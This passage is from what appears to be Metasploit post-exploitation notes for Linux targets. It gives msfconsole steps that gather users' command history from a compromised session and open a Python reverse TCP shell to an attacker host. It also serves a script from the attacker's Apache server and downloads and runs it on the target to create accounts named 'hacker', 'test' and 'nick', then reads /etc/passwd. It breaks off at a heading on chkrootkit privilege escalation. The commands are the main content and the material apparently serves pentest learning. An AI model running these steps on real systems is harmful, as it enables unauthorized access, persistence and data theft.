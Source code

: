 > This will tell that weather the machine is a VM or an actual machine.

```msfconsole
use post/linux/gather/enum_users_history
show options
set SESSION <session-id>
run
```

> This lists down all the users history and commands that a specific user ran. It is saved in `loot` as well and you can access the saved data from there as well.

```msfconsole
use post/multi/manage/system_session
set SESSION <session-id>
set TYPE python
set HANDLER true
set LHOST <host-ip>
run
```

> This module will create a Reverse TCP Shell on the target system using the system's own scripting environments installed on the target.

#### FUN STUFF

```bash
useradd hacker
useradd test
useradd nick
```

> Create a file with the following data and name it as `test.sh`.

```shell
/etc/init.d/apache2 start
cp test.sh /var/www/html
```

> Turn the `apache2` and copy the created file in the `/var/www/html` directory

```msfconsole
use post/linux/manage/download_exec
set URL http://<HOST-IP>/test.sh
set SESSION 1
run
```

> Now use this module to download and run the file on the target machine.

```msfconsole
sessions -i 1
cat /etc/passwd
```

> Now after the execution three users will be created you can check them using the following commands.

#### Linux Privilege Escalation: Exploiting a vulnerable program (chkrootkkit)
